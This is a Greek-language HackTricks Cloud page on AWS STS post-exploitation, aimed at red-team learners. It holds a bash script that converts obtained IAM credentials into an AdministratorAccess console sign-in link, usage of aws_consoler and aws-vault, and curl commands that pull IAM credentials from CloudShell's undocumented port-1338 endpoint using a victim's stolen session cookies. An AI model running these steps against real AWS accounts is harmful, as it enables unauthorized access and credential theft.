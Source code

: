# AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

Για περισσότερες πληροφορίες:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### Από IAM Creds σε Console

Εάν έχετε καταφέρει να αποκτήσετε κάποια IAM credentials, μπορεί να σας ενδιαφέρει να **πρόσβαση στην web console** χρησιμοποιώντας τα παρακάτω εργαλεία.\
Σημειώστε ότι ο χρήστης/ρόλος πρέπει να έχει την άδεια **`sts:GetFederationToken`**.

#### Custom script

Το παρακάτω script θα χρησιμοποιήσει το προεπιλεγμένο προφίλ και μια προεπιλεγμένη τοποθεσία AWS (όχι gov και όχι cn) για να σας δώσει ένα υπογεγραμμένο URL που μπορείτε να χρησιμοποιήσετε για να συνδεθείτε στην web console:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Μπορείτε να **δημιουργήσετε έναν σύνδεσμο ιστού κονσόλας** με [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Βεβαιωθείτε ότι ο χρήστης IAM έχει άδεια `sts:GetFederationToken`, ή παρέχετε έναν ρόλο για να αναληφθεί.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) είναι ένα εργαλείο για την ασφαλή αποθήκευση και πρόσβαση στα διαπιστευτήρια AWS σε ένα περιβάλλον ανάπτυξης.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Μπορείτε επίσης να χρησιμοποιήσετε το **aws-vault** για να αποκτήσετε μια **συνεδρία κονσόλας προγράμματος περιήγησης**
{% endhint %}

#### Από την Κονσόλα στα IAM Creds

[**Ανακαλύφθηκε αρχικά σε αυτή την ανάρτηση**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Εάν καταφέρετε να συμβιβάσετε κάποια πρόσβαση σε μια διαδικτυακή κονσόλα (ίσως κλέψατε cookies και δεν μπορούσατε να αποκτήσετε πρόσβαση στον φάκελο .aws), μπορείτε να αποκτήσετε κάποια IAM token credentials για αυτόν τον χρήστη μέσω του **CloudShell**.

Το CloudShell εκθέτει IAM credentials μέσω ενός **μη τεκμηριωμένου endpoint στην πόρτα 1338**. Αφού φορτώσετε τα session cookies του θύματος στον περιηγητή σας, μπορείτε να μεταβείτε στο CloudShell και να εκδώσετε τις παρακάτω εντολές για να αποκτήσετε IAM credentials.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

